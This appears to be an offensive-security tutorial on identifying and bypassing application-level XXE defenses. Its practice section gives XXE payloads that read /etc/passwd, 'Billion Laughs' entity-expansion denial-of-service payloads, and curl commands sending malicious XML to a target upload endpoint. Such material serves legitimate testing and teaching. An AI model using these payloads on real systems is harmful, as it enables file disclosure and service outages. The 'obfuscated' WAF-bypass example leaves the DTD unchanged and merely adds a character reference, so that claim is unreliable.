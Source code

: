 ```yaml
---
title: Application-Level Defenses for XXE Protection
description: Explore strategies to secure web apps with application-level defenses
  against XXE attacks.
keywords:
- application-level defenses
- xml external entity
- XXE
- web application security
- WAF
- content-type validation
- file upload restrictions
- xml size limits
- secure coding practices
---
```


# Application-Level Defenses

## Context

The objective of this article is to equip readers to identify, evaluate, and bypass application-level defenses against XML External Entity (XXE) attacks in web applications. To fully engage with this topic, readers should already be familiar with the structure of XML, the HTTP protocol, web application architecture, and the basics of XML External Entity (XXE) attacks.

## Theory

### Application-Level Defense Mechanisms for XXE

Application-level defenses consist of controls implemented directly within the application's code or logic to mitigate the risks posed by XXE attacks. These defenses often focus on restricting XML input capabilities, limiting resource usage, and enforcing secure processing behaviors. The overarching goal is to prevent attackers from exploiting XML vulnerabilities to access unauthorized data or execute harmful operations within the application environment.

### WAF XXE Rules and Application Layer Firewalls

Web Application Firewalls (WAFs) are a common defense mechanism against XXE attacks. These firewalls detect and block malicious XML payloads using either signature-based rules that recognize known attack patterns, or anomaly-based rules that identify deviations from normal behavior. However, attackers may attempt to evade these defenses by crafting payloads that obfuscate entities or use encoding methods to bypass detection.

### Content-Type Validation

Validating the Content-Type headers is crucial to ensure that only the expected XML formats are processed by the application. Attackers might submit malicious XML data disguised as other content types, such as plain text or JSON. Improper validation opens the door for such attacks, allowing malicious XML data to be processed by the application.

### File Upload Restrictions

Restricting file uploads to safe file types and enforcing strict parsing logic can significantly reduce exposure to XXE attacks. Applications should carefully check file types and contents to ensure that malicious XML files are not accidentally accepted by loose validators or misconfigured upload endpoints.

### XML Size and Resource Limiting

It is crucial to set limits on XML document size, the number of entity expansions, and processing time to prevent resource exhaustion attacks. Without these constraints, attackers can initiate denial-of-service attacks by sending large or recursive XML payloads designed to deplete system resources.

### Timeout and Resource Configuration

By configuring appropriate timeouts and memory limits for XML processing, the impact of slow or complex payloads can be minimized. Shorter timeouts and lower memory caps make it more challenging for attackers to exploit resource-intensive vectors associated with XXE attacks.

### Secure Coding Practices for XML Handling

Developers should adopt secure coding practices when dealing with XML. This includes using secure libraries, disabling external entity resolution, and avoiding the use of insecure XML APIs. Code reviews and dependency audits are also vital to identify and remediate insecure XML handling patterns within the application codebase.

## Practice

### Bypassing WAF XXE Rules via Payload Obfuscation

Attackers can exploit weaknesses in WAF detection through payload obfuscation. Below are examples of standard and obfuscated XXE payloads:

- Standard XXE payload for file disclosure:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY % d SYSTEM "file:///etc/passwd">
  %d;
  ]>
  <root/>
  ```

- Obfuscated entity reference to bypass naive WAF filters:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY % d SYSTEM "file:///etc/passwd">
  %d;
  ]>
  <root>&#x25;d;</root>
  ```

This approach demonstrates how attackers can evade WAF or application filters to execute XXE attacks.

### Testing Content-Type Validation Weaknesses

To test for weaknesses in Content-Type validation, the following commands are used to send XML payloads with different Content-Types:

- Send XML with incorrect Content-Type:
  ```bash
  curl -X POST -H "Content-Type: text/plain" --data-binary @malicious.xml https://target/upload
  ```

- Send XML with correct Content-Type to observe differences in application behavior:
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @malicious.xml https://target/upload
  ```

This assesses whether the application processes XML data regardless of the specified Content-Type.

### Exploiting File Upload Restrictions

Attackers may also try to manipulate file uploads:

- Attempt to upload malicious XML using an allowed file type:
  ```bash
  curl -F "file=@malicious.xml;type=text/xml" https://target/upload
  ```

- Test if the server inspects file content or solely relies on MIME type:
  ```bash
  curl -F "file=@malicious.xml;type=image/png" https://target/upload
  ```

These tests determine if file upload restrictions can be bypassed, allowing malicious XML files to reach the parsing logic.

### Testing XML Size and Resource Limits

Attackers may leverage large or recursive XML structures to exhaust resources:

- Send large/recursive XML to probe for resource exhaustion:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
  <!ENTITY a "1234567890" >
  <!ELEMENT lolz (#PCDATA)>
  ]>
  <lolz>&a;&a;&a;... (repeat)</lolz>
  ```

This test determines if the application enforces XML size/entity expansion limits effectively.

### Probing Timeout and Resource Configuration

A more sophisticated attack, such as the "Billion Laughs" attack, can test timeout and memory configurations:

- Send payload to assess resource limitations:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
  <!ENTITY a "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY b "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
  <!ENTITY c "1234567890">]>
  <lolz>&a;</lolz>
  ```

This evaluates the server's vulnerability to resource exhaustion caused by complex XML payloads.

## Tools

- **curl**
